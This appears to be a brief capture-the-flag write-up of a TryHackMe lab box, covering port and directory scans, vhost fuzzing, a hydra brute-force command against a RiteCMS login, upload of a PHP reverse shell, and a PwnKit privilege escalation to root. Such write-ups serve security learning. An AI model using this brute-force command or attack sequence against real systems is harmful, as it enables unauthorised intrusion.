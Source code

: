 Started with a nmap scan
```
22 OpenSSH 7.2p2
80 Apache 2.4.18
111 rpcbind
2049 NFS
38905 nlockmgr
```

Doing a gobuster scan
```
/imgaes
```
Starting a nikto scan
```
/images
```
Started a fuzz for vhost found a bunch
```
dashboard
deliver
newsite
manager
develop
network
forms
maintenance
view
mailgate
play
start
booking
terminal
gold
internet
resources
```
Out of all these there is only one that's different its `deliver` so going to start a gobuster on it and see if there is any files on this one there is not on the others
```
/media
/templates
/files
/data
/cms
/js
/LICENSE
```

They all seems to go to the same site which is running `RiteCMS` version `2.2.1` which does have a authenticated RCE  

Going to the `/data` there is a file called `content` and it says there is a todo list `crate nfs share for william on /home/william` but since we don't know his `uid` we cant mount the share so I tried using hydra on the login page for the cms and got the admin account to crack
	`hyrda -l admin -P rockyou.txt deliver.undiscovered.thm http-post-form "/cms/index.php:username=admin&userpw=^PASS^:F=user unknown or password wrong"` 
	Login
	`admin:liv.....l`
After we login in there is a file manager and we can upload a php reverse shell and go to the `/files` and we get a call back to are host as `www-data` there is 2 users `william` and `leonard` 
just went right for root with PwnKit 